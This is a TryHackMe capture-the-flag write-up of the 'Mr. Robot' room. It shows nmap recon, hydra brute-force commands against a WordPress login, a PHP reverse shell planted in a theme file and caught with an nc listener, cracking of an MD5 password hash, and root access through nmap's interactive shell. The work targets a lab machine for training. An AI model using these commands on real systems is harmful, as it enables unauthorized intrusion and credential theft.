 ```yaml
---
title: THM - Mr. Robot
description: TryHackMe write-up of Mr. Robot room
author: z3nn
date: 2020-09-28 18:48:02 +0300
categories: []
tags: [pentest,  linux,  wordpress,  mr. robot,  security]
---
```


# THM - Mr. Robot

A write-up to the `Mr. Robot` machine provided by [TryHackMe](https://tryhackme.com/). This machine is rated as a `Medium` difficulty... Let's get to it.

## Recon
Running an nmap scan for first recon on this room to see what ports are open, what services are running on it... etc
```
# Nmap 7.80 scan initiated Mon Sep 28 17:11:55 2020 as: nmap -sS -sV -oA robot-vuln -p- -T5 --script=default,vuln -Pn 10.10.42.60
Nmap scan report for 10.10.42.60
Host is up (0.050s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_sslv2-drown:

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 17:23:43 2020 -- 1 IP address (1 host up) scanned in 708.02 seconds
```

... what comes next is not so technical... while `gobuster` was running I started clicking stuff around and trying to access pages here and there... and I ended up on a `Wordpress` 404 page. After this I took a look at gobuster and what do you know, we have `/wp-content` and other Wordpress related paths.

`gobuster` also returned a `/robots` path which after accessing is just the `/robots.txt` file.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Looks like we got our first key.

`fsocity.dic` seems to be a custom word dictionary that might be usefull to us so we will download it on our machine using `wget`

WPScan revealed a good detail about this web app
```
# using 2015 theme
WordPress theme in use: twentyfifteen
 | Location: http://10.10.42.60/wp-content/themes/twentyfifteen/
```

## Foothold

Since there's not much else to go on from here and I already am under the impression that we'll have to reverse shell our way in from the Wordpress theme it's time to `brute force` our way in.

### Username

We don't know what username we need to use so we will have to brutefoce that also... using the dictionary kindly provided by the web app: `fsocity.dic`

```
hydra -L fsocity.dic -p test 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```
- we will use `fsocity.dic` to check for possible usernames
- we will be looking for an _incorrect password_ message to know we have the right user


After running for a bit we have our user:
```
[80][http-post-form] host: 10.10.42.60   login: Elliot   password: test
```

Now it's time to try and bruteforce the password... one good tip I received here was to filter out the dictionary for duplicates and entries that wouldn't match a password cryteria (a minimum of x character)


```
hydra -l Elliot -P fsocity.dic2 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"
```

After a _long time_ we get the password and we can now login in the wordpress app.


## Exploit

I looked around the Wordpress dashboard and couldn't find anything interesting... other then the fact that Elliot's therapist is subscribed to his blog.

I used PentestMonkey's [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) to add it do the 404.php code of Wordpress theme and accessed a random page that would return a 404 error.


```
$ nc -lnvp 8585
listening on [any] 8585 ...
connect to [10.11.14.38] from (UNKNOWN) [10.10.42.60] 58713
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:13:58 up  1:04,  0 users,  load average: 5.43, 5.10, 4.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```
We're in... time to upgrade this shell to something _nicer_, I would say that I used my own [Cheatsheet](https://7a336e6e.github.io/posts/pentest-cheatsheet/#upgrading-a-reverse-shell) for this but the reality is that I've done this thing so many times that I know it _by heart_

## 2nd Flag

Manual _enumeration_ revealed this system has a user `robot` and his `/home` has a few interesting files:
```
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Now we can't read `key-2-of-3.txt` unfortunately...yet. But we can read `password.raw-md5`

```
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Here we can either ask John to do our work for us or use Hashcat, it's up to your own choice and prefferences... but we get the password for `robot` and therefore we get `key-2-of-3`


## Privesc

In order for us to get the 3rd and final flag we need to escalate our privileges to `root`, which I assume has the 3rd and final flag.

Now I had a bit of a hard time to find a place to get `linpeas.sh` as this user's `/home` was owned by root and we didn't have write access to it... bummer~

I managed to find a nice and cozy place in `/var/run/shm` where I downloaded `linpeas.sh` from my own machine and executed it.

Now running linpeas we see the ubuntu version is being flagged right away with the _RED/YELLOW_ markeras a _99% PE vector_ ... which it might be, but the way to root is far more easy... Just a few more lines below we see that our user can execute `nmap`. We can open an interactive nmap shell from which we can switch to a `root` shell and therefore get our final flag.

```
robot@linux:/var/run/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```

And we got our 3rd and final key and this box is **OWNED**

